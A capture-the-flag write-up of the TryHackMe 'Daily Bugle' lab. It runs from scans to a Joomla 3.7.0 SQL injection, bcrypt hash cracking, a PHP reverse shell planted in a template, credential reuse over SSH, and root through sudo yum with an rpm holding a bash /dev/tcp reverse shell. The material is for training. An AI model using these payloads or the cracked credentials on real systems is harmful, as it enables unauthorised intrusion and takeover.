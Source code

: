 # [Daily Bugle](https://tryhackme.com/room/dailybugle)

Machine IP: `10.10.55.2`

Nmap results:

`nmap --top-ports 100 -sV $MACHINE`

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-11-13 00:27 CET
Nmap scan report for 10.10.55.2
Host is up (0.088s latency).
Not shown: 97 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.05 seconds
```

Dirbuster results:
`gobuster -u http://10.10.55.2/ -w ~/wordlists/Discovery/Web-Content/directory-list-2.3-small.txt`
```
=====================================================
Gobuster v2.0.1              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.55.2/
[+] Threads      : 10
[+] Wordlist     : /home/damian/wordlists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Status codes : 200,204,301,302,307,403
[+] Timeout      : 10s
=====================================================
2021/11/13 00:43:25 Starting gobuster
=====================================================
/images (Status: 301)
/templates (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/bin (Status: 301)
/plugins (Status: 301)
/includes (Status: 301)
/language (Status: 301)
/components (Status: 301)
/cache (Status: 301)
/libraries (Status: 301)
/tmp (Status: 301)
/layouts (Status: 301)
/administrator (Status: 301)
/cli (Status: 301)
```


On `/administrator` endpoint we can find that this server is running on Joomla.
To check Joomla version we can visit `http://10.10.55.2/administrator/manifests/files/joomla.xml`.

Result: `<version>3.7.0</version>`

[Quick Google search shows that this version is affected](https://www.exploit-db.com/exploits/42033)

We can use [this script](https://github.com/stefanlucas/Exploit-Joomla) to exploit this vuln. We need to use `python2` and install module `requests` in order for it to work.

The output is:

```
[-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session
```

This hash format is [bcrypt](https://en.wikipedia.org/wiki/Bcrypt).

We can crack this using `john hash.txt --wordlist=~/wordlists/rockyou.txt --format=bcrypt`

Output:
```
Loaded 1 password hash (bcrypt [Blowfish 32/64 X2])
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
spiderman123     (?)
1g 0:00:02:07 100% 0.007827g/s 366.7p/s 366.7c/s 366.7C/s wingwing..smile4ever
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

So, the password is `spiderman123`

Now that we have access to admin panel of Joomla, we can gain reverse shell by entering `Extensions->Templates->Protostar` and edit `index.php` to include following reverse shell in it: `$sock=fsockopen("10.8.248.211",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);`

We are user `apache`. We can download `linpeas` using local http server (`python3 -m http.server 8080`). A quick look at the results shows this suspicious snippet:

```
╔══════════╣ Searching passwords in config PHP files
	public $password = 'nv5uz9r3ZEDzVjNu';
			$this->password = (empty($this->options['db_pass'])) ? '' : $this->options['db_pass'];
			$this->password = null;
			'password' => $this->password,
```

If we try this password for `jjameson` user it works! We can also connect via ssh using that password and `ssh jjameson@10.10.55.2`.

We can now cat the `user` flag.

`sudo -l` has interesting output:

```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```

This gives us a hint that we may be able to exploit `yum`.

[GTFObins](https://gtfobins.github.io/gtfobins/yum/) confirms that suspicion and shows how we are able to exploit `yum`. [This](https://medium.com/@klockw3rk/privilege-escalation-how-to-build-rpm-payloads-in-kali-linux-3a61ef61e8b2) site is also useful.

In short: we need to create an `rpm` package which can be based on a `bash` script with reverse shell, in my case:
```
#!/bin/bash

bash -i >& /dev/tcp/10.8.248.211/8082 0>&1
```

After that, it's as simple as reading flag in `/root`.
